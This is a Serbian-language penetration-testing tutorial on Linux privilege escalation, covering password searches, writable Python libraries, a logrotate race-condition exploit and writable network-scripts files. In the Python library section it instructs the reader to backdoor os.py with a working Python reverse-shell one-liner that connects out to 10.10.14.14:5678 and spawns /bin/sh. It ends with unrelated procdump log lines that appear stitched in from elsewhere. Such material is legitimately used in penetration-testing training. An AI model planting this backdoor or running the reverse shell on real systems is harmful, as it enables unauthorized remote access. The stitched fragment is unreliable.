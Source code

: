### Pretraga generičkih podataka/Regex

Trebali biste takođe proveriti datoteke koje sadrže reč "**password**" u svom **nazivu** ili unutar **sadržaja**, kao i proveriti IP adrese i emailove unutar logova, ili hash regexps.\
Neću ovde navesti kako sve to uraditi, ali ako ste zainteresovani, možete proveriti poslednje provere koje [**linpeas**](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh) vrši.

## Datoteke sa dozvolom za pisanje

### Hakovanje Python biblioteke

Ako znate **odakle** će se izvršavati Python skripta i **možete pisati unutar** tog foldera ili možete **izmeniti Python biblioteke**, možete izmeniti OS biblioteku i postaviti tajni pristup (ako možete pisati tamo gde će se izvršavati Python skripta, kopirajte i nalepite biblioteku os.py).

Da biste **postavili tajni pristup** u biblioteku, samo dodajte na kraj biblioteke os.py sledeću liniju (promenite IP i PORT):

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.14",5678));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

### Eksploatacija Logrotate-a

Ranjivost u `logrotate`-u omogućava korisnicima sa **dozvolama za pisanje** na datoteci zapisa ili njenim nadređenim direktorijumima da potencijalno steknu privilegije sa povišenim pravima. Ovo je moguće jer `logrotate`, često pokrenut kao **root**, može biti manipulisan da izvrši proizvoljne datoteke, posebno u direktorijumima poput _**/etc/bash\_completion.d/**_. Važno je proveriti dozvole ne samo u _/var/log_ već i u bilo kom direktorijumu gde se primenjuje rotacija zapisa.

{% hint style="info" %}
Ova ranjivost utiče na verziju `logrotate`-a `3.18.0` i starije
{% endhint %}

Detaljnije informacije o ranjivosti mogu se pronaći na ovoj stranici: [https://tech.feedyourhead.at/content/details-of-a-logrotate-race-condition](https://tech.feedyourhead.at/content/details-of-a-logrotate-race-condition).

Možete iskoristiti ovu ranjivost pomoću [**logrotten**](https://github.com/whotwagner/logrotten).

Ova ranjivost je veoma slična [**CVE-2016-1247**](https://www.cvedetails.com/cve/CVE-2016-1247/) **(nginx zapisi)**, pa svaki put kada otkrijete da možete menjati zapise, proverite ko upravlja tim zapisima i proverite da li možete povećati privilegije zamenom zapisa simboličkim vezama.

### /etc/sysconfig/network-scripts/ (Centos/Redhat)

**Reference ranjivosti:** [**https://vulmon.com/exploitdetails?qidtp=maillist\_fulldisclosure\&qid=e026a0c5f83df4fd532442e1324ffa4f**](https://vulmon.com/exploitdetails?qidtp=maillist\_fulldisclosure\&qid=e026a0c5f83df4fd532442e1324ffa4f)

Ako, iz bilo kog razloga, korisnik može **pisati** skriptu `ifcf-<bilo šta>` u _/etc/sysconfig/network-scripts_ **ili** može **prilagoditi** postojeću, onda je vaš **sistem kompromitovan**.


[20:20:58 - WARN]: Procdump not running with elevated credentials. If your uid does not match the uid of the target process procdump will not be able to capture memory dumps
[20:20:58 - INFO]: Timed:
[20:21:00 - INFO]: Core dump 0 generated: ./sleep_time_2021-11-03_20:20:58.1714